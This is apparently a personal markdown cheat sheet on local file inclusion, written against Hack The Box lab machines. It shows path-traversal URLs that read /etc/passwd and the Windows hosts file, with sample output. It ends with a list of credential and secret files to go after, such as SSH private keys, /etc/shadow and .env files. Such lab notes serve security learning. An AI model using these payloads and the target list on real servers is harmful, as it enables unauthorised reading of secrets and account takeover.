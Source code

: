 # LFI
https://portswigger.net/web-security/file-path-traversal
https://portswigger.net/kb/issues/00100300_file-path-traversal
## Basic
```
# Take an example URL
http://unika.htb/index.php?page=french.html

# I suspect parameter page is vulnerable to LFI.
# Requesting below URL URL results ine error
http://unika.htb/index.php?page=/french.html
Error: Warning: include(/french.html): Failed to open stream: No such file or directory in C:\xampp\htdocs\index.php on line 11

# I will try the following (Linux web server)
http://unika.htb/index.php?page=../../../etc/passwd
http://unika.htb/index.php?page=/etc/passwd

# On Windows web server
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
http://unika.htb/index.php?page=/windows/system32/drivers/etc/hosts
```

## Further exploitation
First let's exploit LFI to read `/etc/passwd` file
```
http://10.129.95.185/?file=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...]
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```
We see two interesting entries in the last lines:
- mike - local user
- tftp - running service
  
Now this gives me more info about potential attack vectors.
Other interesting files
```
/etc/hosts - potential vhosts, subdomains?
/root/.ssh/id_rsa	- Root shell via SSH
/home/<user>/.ssh/id_rsa	- User shell via SSH
/etc/shadow	- Password hashes to crack
/root/.bash_history	- Commands, maybe passwords
/etc/crontab	- Scheduled jobs to hijack
/var/www/html/.env	- App secrets
/proc/self/environ	- Possible RCE via env injection
```
